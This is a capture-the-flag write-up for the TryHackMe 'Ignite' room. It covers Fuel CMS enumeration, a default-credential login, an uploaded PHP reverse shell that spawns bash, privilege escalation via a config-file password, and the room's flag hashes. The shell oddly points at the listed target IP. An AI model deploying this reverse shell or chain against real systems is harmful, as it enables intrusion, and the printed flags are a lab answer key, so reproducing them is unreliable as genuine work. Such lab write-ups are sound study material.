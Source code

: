 # TryHackMe - Ignite
[https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

## Target Info
- IP: 10.10.163.190
- OS: 

## 1. Enumeration
- nmap scan: `nmap -sV -O 10.10.163.190`
- Open ports: 80
- Fuel CMS Version1.4
- Using Gobuster, the following paths were discovered:
  - /assets
  - /fuel
  - /offline
- Confirmed login with ID/PASS: admin/admin

## 2. Exploitation
- Created a ZIP file containing a PHP file with a reverse shell
- Set up a listener on the attacker's server using the nc command
- Executed the PHP file from the /assets directory
- Successfully gained access to the target server

```
<?php
$ip = '10.10.163.190';
$port = 12345;
$sock=fsockopen($ip, $port);
$proc = proc_open("/bin/bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

## 3. Privilege Escalation
- Executed the following command

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- Downloaded linpeas.sh to the attacker's server
- Transferred linpeas.sh to the target server
- Executed linpeas
- Found the root password in /var/www/html/fuel/application/config/database.php:
  - mememe
- Ran sudo /bin/bash to gain root privileges

## 4. Flags
- user.txt: `6470e394cbf6dab6a91682cc8585059b`
- root.txt: `b9bbcb33e11b80be759c4e844862482d`



